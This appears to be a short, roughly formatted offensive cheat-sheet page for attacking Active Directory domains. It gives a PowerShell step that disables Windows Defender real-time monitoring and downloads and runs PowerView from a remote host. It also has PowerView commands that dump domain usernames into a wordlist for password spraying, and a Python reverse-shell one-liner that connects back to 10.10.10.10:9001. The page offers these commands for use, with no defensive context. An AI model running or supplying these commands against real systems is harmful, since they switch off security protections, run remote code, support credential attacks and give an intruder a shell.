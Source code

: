 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


### DOMAIN ENUMERATION
 # Patch AMSI or disable AV
    <br>
```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>
# Get all the users in the domain


# Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying 
    ```powershell
      Get-NetUsers | select samaccountname > username.txt
      
      # Get all the computers in the domain
      Get-NetComputer

      # Get information about specific computer
      Get-NetComputer -Identity <computer_name>

    ```



```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
